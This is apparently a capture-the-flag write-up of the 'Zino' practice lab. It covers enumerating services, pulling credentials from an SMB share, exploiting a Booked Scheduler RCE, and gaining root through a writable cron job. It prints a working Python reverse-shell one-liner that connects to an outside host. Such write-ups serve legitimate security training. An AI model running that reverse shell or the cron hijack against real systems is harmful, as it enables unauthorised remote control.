 # Blocky

Machine: [Zino](https://portal.offensive-security.com/labs/practice)\
Difficulty: Intermediate


## Enumeration
What ports are open?
![Results!](screenshots/1.png)

What are the versions of the services?
21/ftp - vsftpd 3.0.3
22/ssh - OpenSSH 7.9p1 Debian 10+deb10u2 
139/Samba smbd - 3.X - 4.X
445/netbios-ssn Samba smbd - 4.9.5-Debian 
3306/mysql - 
8003/http - Apache httpd 2.4.38




### Ftp
The version of ftp installed on this machine does not seem to be of any use to me. There is a vulnerability for this version of ftp, but it is related to denial of service (DOS). Next, I tried to login as 'anonymous/anonymous' but that did not work.

### Ssh
At first glance, this version does not appear to be vulnerable to anything. However, if I find any credentials then I might be able to use them via ssh to login.

### Smb
To enumerate smb I used a couple of tools. First, I used smbmap to list the shares on this machine. Second, I used smbclient to copy any files on the share I had permissions to read to my local machine.
<pre>smbmap -H 192.168.213.64</pre>

![Results!](screenshots/2.png)

<pre>smbclient //192.168.213.64/zino</pre>
![Results!](screenshots/3.png)

Surely enough the share had the local.txt flag for this machine! There are two other files that I thought had intersting information is the auth.log file and misc.log file. I know that there is a user named 'peter' but I was not able to ssh into the machine as peter...so maybe I might need to brute force the password but I will wait for that.
![Results!](screenshots/5.png)

In the misc.log file, there is a set of credentials admin/adminadmin. I tried to login as root via ssh and use the password that I just found, but I was not able to login.
![Results!](screenshots/6.png)

### Mysql
I don't know what version of MySql is running, but when I tried to login I kept getting this error below.
Error: ERROR 2002 (HY000): Can't connect to local MySQL server through socket '/run/mysqld/mysqld.sock' (2)

### Http
I get redirected to a booked/web directory which seems to just be a login page. At the bottom of the login page, we can see the software name and version that the website is using.
![Results!](screenshots/7.png)

![Results!](screenshots/8.png)

A quick search online reveals that this version is vulnerable to RCE. Exploit [here](https://www.exploit-db.com/exploits/50594). This exploit does require a set of credentials, so I remember that I found another set of creds in the misc.log. Those credentials, admin/adminadmin, allow me to login to the page.

![Results!](screenshots/9.png)

## Exploitation
I was able to get a shell by follwoing this [exploit](https://www.exploit-db.com/exploits/50594), but I could not move out of the directory...I think this is because I have a shell as www-data. 
![Results!](screenshots/10.png)

I ended up following another example online for this exploit because I was unable to move out of the directory I originally got a shell in. I am not sure what is the reason for that, I assume it is the way I got a shell, but doing the exploit manually resolved this issue. I uploaded a php file that will allow rce and from there I will get a reverse shell by using the following command:
<pre>python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.1.1.1",21));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'</pre>

[Exploit tutorial](https://github.com/F-Masood/Booked-Scheduler-2.7.5---RCE-Without-MSF)

![Results!](screenshots/10.png)


### Flags


#### User/Local flag
![Results!](screenshots/4.png)

#### Root flag
To escalate my privileges, I found that there is a cron job running on this machine every 3 minutes and I have read,write,execute permissions on the file that is getting run. Based on this, I created a file on my personal machine with the same name and placed python code that will spawn me a shell. Next, I removed the original cron job file that was getting run with the one I created on my machine, then I setup a listener in another terminal to wait for the incoming connection.
![Results!](screenshots/11.png)


![Results!](screenshots/12.png)














